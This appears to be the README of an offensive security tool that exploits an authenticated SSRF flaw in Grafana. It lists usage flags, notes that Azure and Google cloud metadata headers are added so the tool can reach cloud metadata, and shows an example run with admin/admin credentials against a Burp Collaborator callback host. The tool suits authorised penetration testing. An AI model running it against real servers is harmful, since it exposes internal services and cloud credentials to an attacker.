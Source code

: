 # grafana-ssrf
Authenticated SSRF in Grafana.

Notes
---

* Azure metadata header has been added to all SSRFS
* Google metadata header has been added to all SSRFS
* SSRF will not follow redirects no matter what so ensure url is direct.

Usage
---


```
usage: grafana-ssrf.py [-h] [-s SESSION] [-u URL] [-H HOST] [-f FILE] [-U USERNAME]
                  [-P PASSWORD]

optional arguments:
  -h, --help            show this help message and exit
  -s SESSION, --session SESSION
                        Session Cookie Value
  -u URL, --url URL     URL of host to check will need http or https
  -H HOST, --host HOST  Host for Grafana
  -f FILE, --file FILE  File of URLS to check SSRF Against
  -U USERNAME, --username USERNAME
                        Username for Grafana
  -P PASSWORD, --password PASSWORD
                        Password for Grafana
```

Example
---

```
python3 grafana.py -U admin -P admin -H http://localhost:3000 -u http://8t2s8yx5gh5nw0z9bd3atkoprgx6lv.burpcollaborator.net
Refreshed Sources
SSRF Source Updated
Status code:   200
Response body: <html><body>c7yzzb4zyj5v14wkpi2nxvzjigz</body></html>
Deleted Old SSRF Source
```


